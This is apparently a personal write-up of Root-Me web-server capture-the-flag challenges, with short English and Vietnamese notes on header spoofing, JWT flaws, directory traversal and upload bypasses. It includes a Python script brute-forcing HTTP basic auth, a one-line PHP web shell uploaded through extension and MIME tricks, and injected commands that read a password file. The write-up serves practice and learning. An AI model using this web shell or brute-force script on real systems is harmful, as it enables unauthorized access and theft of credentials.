

# 🏝 Rootme

## Web - Server

### [HTML - Source code](https://www.root-me.org/en/Challenges/Web-Server/HTML-Source-code)

F12 for flag

### [HTTP - IP restriction bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

``[`document`](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)``

 (1).png>)

> **Syntax: X-Forwarded-For: \<client>,\<proxy1>,\<proxy2>,\<proxy3>**

Change IP at client to private IP by adding _**an X-Forwarded-For**_ header

 (2).png>)

### [HTTP - Open redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

.png>)

It combines URL and hash md5 of that one, so that we just put other URL and hash of it.

 (1).png>)

### HTTP - User-agent

change User-Agent to \`admin\`

.png>)

### Weak password

```
import requests
from requests.auth import HTTPBasicAuth
url = "http://challenge01.root-me.org/web-serveur/ch3/"
usr = "admin"
words = open('common_password.txt','r').read().split('\n')
cnt =1
for pwd in words:
	print(pwd,cnt)
	
	res = requests.get(url, auth=HTTPBasicAuth(usr, pwd))
	
	if "401" not in res.text:
		print('Password is ' + pwd)
		break
	cnt +=1
```

.png>)

### PHP - Command injection

 (2).png>)

.png>)

``[`document`](https://portswigger.net/web-security/os-command-injection)``

### Backup file

Use dirsearch find some interesting files:

.png>)

> /web-serveur/ch11/index.php\~

### HTTP - Directory indexing

> [http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt](http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt)
>
>

 (3).png>)

### HTTP - Headers

With normal request we will get:

 (2).png>)

add Header to request:

> Header-RootMe-Admin: True

.png>)

### HTTP - POST

.png>)

### HTTP - Improper redirect

Capture before it redirect

.png>)

### HTTP - Verb tampering

Ban đầu tưởng bruteforce ngồi xài hydra và cái rockyou.txt ra spam cả tiếng&#x20;

.png>)

temper ở đây là chỉ cần đổi method khác ngoài GET và POST là được, cứ PUT với DELETE mà phang

.png>)

### File upload - Double extensions

```
<?php echo shell_exec($_GET['cmd']); ?>
```

set file.php.png and send to the server

 (3).png>)

```
?cmd=cd;cat .passwd
```

### File upload - MIME type



Change Content-Type to image/png and rce

```
?id=cd;cat .passwd
```

### HTTP - Cookies

.png>)

change cookie from `visiteur` to `admin`

### JSON Web Token (JWT) - Introduction

.png>)

"none" signature algorithms

### Directory traversal

.png>)

Try with ../ and fuzz

### JSON Web Token (JWT) - Weak secret

.png>)

bruteforce secret key: lol

.png>)

POST and look for the flag hm....

.png>)

